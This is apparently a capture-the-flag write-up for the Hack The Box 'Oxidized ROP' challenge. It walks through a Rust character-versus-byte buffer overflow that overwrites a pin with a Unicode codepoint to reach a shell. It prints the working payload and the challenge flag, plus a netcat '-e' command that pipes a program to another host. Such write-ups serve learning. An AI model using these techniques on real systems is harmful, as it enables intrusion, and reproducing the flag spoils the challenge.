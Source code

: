 ## Oxidized-ROP

https://app.hackthebox.com/challenges/Oxidized%20ROP

This PWN starts off seeming easily straightforward, then overly difficult (ROP + Unicoding pointers), then easy again once you figure out you wasted a weekend testing something you were absolutely certain about despite having **ZERO** prior experience in Rust.

### Overview

So as you can see by the title of this PWN, "ROP" means return oriented programming. 

<details>
  <summary>Quick disclaimer</summary>
  
  I have no actual experience with ROP exploits.
</details>

<details>
  <summary>Another quick disclaimer</summary>

  This PWN is actually **NOT** a ROP. 
  
  Yeah. 
  
  I don't know why the author titled it this. 
  There exists another vulnerability much easier to exploit. 
  I started Googling and learning all about ROP, but 
  never got to use it. Very anticlimactic...
</details>

<details>
  <summary>TLDR; Payload and flag</summary>
  
  Input this payload into the 'Complete survey' panel:
  ```
  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA𞉀
  ```
  The flag:
  ```
  HTB{7h3_0r4n63_cr4b_15_74k1n6_0v3r!}
  ```
</details>

### Reconnaissance

I started off by looking through the provided `oxidized-rop.rs` file.

The only thing I knew about Rust prior to this are the insane 
safety features. 

At line 48 is an unsafe block. This goes against the safety 
features. The code checks that the argument string is 
less than 200 characters (not bytes).

```{r, attr.source='.numberLines startFrom="40"'}
fn save_data(dest: &mut [u8], src: &String) {
    if src.chars().count() > INPUT_SIZE {
        println!("Oups, something went wrong... Please try again later.");
        std::process::exit(1);
    }

    let mut dest_ptr = dest.as_mut_ptr() as *mut char;

    unsafe {
        for c in src.chars() {
            dest_ptr.write(c);
            dest_ptr = dest_ptr.offset(1);
        }
    }
}
```

The `save_data(dest: &mut [u8], src: &String)` function is
called by `present_survey(feedback: &mut Feedback)`:

```{r, attr.source='.numberLines startFrom="69"'}
fn present_survey(feedback: &mut Feedback) {
    // ...
    print!("Statement (max 200 characters): ");
    io::stdout().flush().unwrap();
    let input_buffer = read_user_input();
    save_data(&mut feedback.statement, &input_buffer);
    // ...
}
```

The `Feedback` structure contains an array of 200 bytes:

```{r, attr.source='.numberLines startFrom="3"'}
const INPUT_SIZE: usize = 200;
const PIN_ENTRY_ENABLED: bool = false;

struct Feedback {
    statement: [u8; INPUT_SIZE],
    submitted: bool,
}
```

Both of `INPUT_SIZE` and `PIN_ENTRY_ENABLED` are const; there are
no means to modify them regardless of exploit. 

As you can see, the `Feedback` structure utilizes bytes, 
however the `save_data(dest: &mut [u8], src: &String)` function
checks for `characters`. This will cause a buffer overflow if
the UTF-8 encoded byte count of the survey input exceeds 200 characters 
(or 800 bytes).

In a basic sense, a stack frame, in order of increasing memory address,
is arranged as such:
- Local variables (Relative positions are tied with their order of declaration)
- Return addresses

We can expect something similar to this with our Rust program:
- 200 bytes for survey array
- 1 boolean for submitted
- 4-bytes for login pin
- Return addresses

```{r, attr.source='.numberLines startFrom="125"'}
let mut feedback = Feedback {
    statement: [0_u8; 200],
    submitted: false,
};
let mut login_pin: u32 = 0x11223344;
```

This, of course, is not the exact layout (as we'll find out in a 
minute).

### Debugging

I'll be using a Kali VM to debug this program. 

Open the program with EDB `edb --run oxodized-rop`.

I'm not going to go through the specifics, but I set a breakpoint 
immediately after the stack address for the local variable `login_pin`
was set to `0x11223344` during its definition in `main()`:

![text](stack_starting_pin.png).

I did a symbol search for `savedata`, and set a breakpoint 
at the last return of the function,
right after the stack was modified. I continue execution. 

In the console input, I inputted `1` for the survey. 

Generate a pattern with 
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200`
to understand how our input is transformed and overflows:

![text](create_pattern.png)

I pass the generated pattern through the EDB console (a program 
started from the command line with EDB easily allows for console input).

After submitting, the breakpoint triggers, and this is the result:

![text](stack_patterned_pin.png)

This is the point where I began the journey to lose my mind
over the span of a weekend.

I was confused as of why every thing was 4-byte aligned.

I looked at the code, and ***assumed*** that the Rust code
was converting everything to UTF-encoded bytes. In
retrospect, I realize that the inputted characters, UTF-8
characters, were being converted to Unicode codepoints,
basically the ID of the Unicode character.

For some reason `pattern_offset` was unable to locate the offset,
but I easily found the offset to be 122, where the next 4-byte
integer is our pin location.

I started doing tests, such as inputting UTF-8 characters, 
and wondering why there were no signs of UTF-8 bytes anywhere
in the overflowed buffer.

This is where I Googled "Oxidized ROP writeup". The keyword
`ROP` brought up some specific exploits, so I figured this was
the way to do it, with an ROP exploit. I started learning about
ROP exploits, stack manipulation, return pops, ROP gadgets...

Near the end I was getting very angery, so decided to 
ask phind model what was up. I fed it my results of some of 
the stack manipulation, asking why the inputted UTF-8 characters 
were giving these weird but consistent values. It told me 
Unicode codepoints. 

With this sliver of hope, I test a specific payload containing
2 UTF-8 characters near the end (`€ƒ`):
```
a_b.c_d.e_f.g_h.i_j.k_l.m_n.o_p.q_r.s_t.u_v.w_x.y_z.A_B.C_D.E_F.G_H.I_J.K_L.M_N.O_P.Q_R.S_T.U_V.W_X.Y_Za,b.c,d.e,f.g,h.i,j€ƒ
```
I used this website to test characters https://unicode.scarfboy.com/?s=%E2%82%AC%C6%92
![text](unicode_page.png)

![text](stack_unicoded_pin.png)

Sure enough, they matched.

### Weaponization

With this knowledge, I now needed to overwrite the
pin value with 123456 as required by the config function:
```{r, attr.source='.numberLines startFrom="3"'}
fn present_config_panel(pin: &u32) {
    use std::process::{self, Stdio};
    
    // the pin strength isn't important since pin input is disabled
    if *pin != 123456 {
        println!("Invalid Pin. This incident will be reported.");
        return;
    }
    
    process::Command::new("/bin/sh")
        .stdin(Stdio::inherit())
        .stdout(Stdio::inherit())
        .output()
        .unwrap();
    }
}
```
I need the codepoint for decimal represented `123456`, in hex is
`1E240`.

Searching for U+1E240 on the page brings up this:

I copy the character and prepare my new payload:

![text](123456_unicode_page.png)

I paste this payload into the survey:
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA𞉀
```

Then input 2 to take me to the "config". 

Then do `la -la`:

![text](self_pwned.png)

PWNED. 

Given this is my own VM, it's time to write a Python script to 
do this automatically on the remote HTB server.

### Exploitation

I decided to test things in a backwards sort-of way,
with a Python script that acts as the server on
my Windows machine, and Netcat on Kali as the client.

Make sure your interfaces are correct (I did host-only on VMnet1).
I ran the Python script first, then started the client:
`nc -e /home/kali/oxidized/oxidized-rop 192.168.190.1 2463`

https://github.com/PeriodicSeizures/CTF-Writeups/blob/43046f0deb92135bfaaf3a64b9efcbd6cfb4c1c7/HTB/Challenges/Pwn/Oxidized%20ROP/exploit.py#L33-L41

I experimented with things and used Wireshark to perfect the 
payload and such.

https://github.com/PeriodicSeizures/CTF-Writeups/blob/main/HTB/Challenges/Pwn/Oxidized%20ROP/exploit.pcapng

Feel free to experiment with the script as I added some debug
stuff during my tests that are commented out.
